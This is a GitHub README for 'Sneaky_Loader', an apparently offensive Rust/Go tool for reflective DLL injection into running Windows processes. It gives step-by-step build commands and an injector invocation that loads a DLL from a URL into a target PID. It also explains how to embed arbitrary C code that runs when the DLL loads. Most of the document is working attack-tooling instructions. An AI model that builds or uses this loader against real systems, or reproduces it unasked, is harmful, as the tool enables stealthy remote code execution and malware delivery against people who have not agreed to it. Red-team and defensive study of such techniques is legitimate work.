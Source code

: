 # Sneaky_Loader
Custom loader - Rust/Go Dll Reflective Injection - Supports 32/54 bits but not ARM for the moment

# How to use it ?

1. Clone the repo
```
git clone <repo>
```

2. x32 - Compile the 32 bits dll
```
cd RustyLoader
rustup target add i686-pc-windows-msvc
cargo build --target=i686-pc-windows-msvc --release
```

2. x64 - Compile the 32 bits dll
```
cd RustyLoader
cargo build --release
```

3. x32 - Copy the compiled dll
```
Copy-Item .\target\i686-pc-windows-msvc\release\rusty_inject.dll -Destination ..\GogoInjector\
```

3. x64 - Copy the compiled dll
```
Copy-Item .\target\release\rusty_inject.dll -Destination ..\GogoInjector\
```

4. x32 - Compile the injector
```
cd GogoInjector
go get github.com/Binject/debug/pe
go get golang.org/x/sys/windows
$env:GOARCH="386"
go build .\inject.go
```

4. x64 - Compile the injector
```
cd GogoInjector
go get github.com/Binject/debug/pe
go get golang.org/x/sys/windows
$env:GOARCH="amd64"
go build .\inject.go
```

5. Test it

x32 : 
Spawn a 32 bits process and get its pid :
```
$process = Start-Process -FilePath "C:\Windows\SysWOW64\cmd.exe" -PassThru
$process.Id
```

x64 : 
Spawn a 64 bits process and get its pid :
```
$process = Start-Process -FilePath "C:\Windows\System32\cmd.exe" -PassThru
$process.Id
```

Inject the dll :

Usage :
```
.\inject.exe 
  -local string
        Local file path
  -pid int
        Process ID
  -url string
        URL of the file
```

Example
```
.\inject.exe -pid  21108 -url http://127.0.0.1:8080/rusty_inject.dll
```
![Alt text](/assets/injected2.png)


6. Inject C program : from .c file 

- Add your C code in RustyLoader :
```
RustyLoader/
|-- Cargo.toml
|-- src/
    |-- lib.rs
    |-- loader.rs
|-- c_code.c
```

- Modify Cargo.toml
```
[dependencies]
ntapi = "0.4.0"
winapi = { version = "0.3", features = ["winuser"] }

[build-dependencies]
cc = "1.0"

[build]
rustc-flags = "-L native=target/release/ -l static:cdll"
```

- Create a build.rs file in RustyLoader :
```
RustyLoader/
|-- Cargo.toml
|-- src/
    |-- lib.rs
    |-- loader.rs
|-- c_code.c
|-- build.rs
```

Content :
```
fn main() {
    cc::Build::new()
        .file("c_code.c")
        .compile("cdll");
}
```
- Modify lib.rs :

```
extern crate winapi;
extern "C" {
    fn show_message();
}
```

```
if call_reason == DLL_PROCESS_ATTACH {
main_function_from_c_code()
}
```

6. Inject C program : from static library

- Compile c code as object file :
```
gcc -c c_code.c -o c_code.o
```

- Compile as static library  :
```
ar rcs staticlib.lib c_code.o 
```

- Add your static library to libs/ :
```
RustyLoader/
|-- Cargo.toml
|-- libs/
    |-- staticlib.lib
|-- src/
    |-- lib.rs
    |-- loader.rs
```

- Modify Cargo.toml
```
[package]
build = "build.rs"
```

- Create a build.rs file in RustyLoader :
```
RustyLoader/
|-- Cargo.toml
|-- libs/
    |-- staticlib.lib
|-- src/
    |-- lib.rs
    |-- loader.rs
|-- build.rs
```

Content :
```
fn main() {
    // Tell Cargo where to find the static library
    println!("cargo:rustc-link-search=./libs");

    // Tell Cargo to link our static library
    println!("cargo:rustc-link-lib=static=staticlib");
}

```
- Modify lib.rs :

```
extern "C" {
    fn show_message();
}
```

```
if call_reason == DLL_PROCESS_ATTACH {
main_function_from_c_code()
}
```

# How to use the debug version ?

The directory debug_RustyLoader contains a verbose version of the RustyLoader. 
It works in a slightly different way :

	- It is an exe, not a dll. 
	- It operates as an injector and also a loader.
	- It reads the dll named debug_dll.dll in /dll_to_inject .
	- It loads the raw dll in the self process memory and perfoms all the loading operations as RustyLoader would do but with verbose printed logs. Once loaded, it calls dllmain.

Put the dll to be tested in the directory debug_RustyLoader\dll_to_inject and name it debug_dll.dll.
```
cd debug_RustyLoader
cargo run --target=i686-pc-windows-msvc
```
![Alt text](/assets/injected_verbose.png)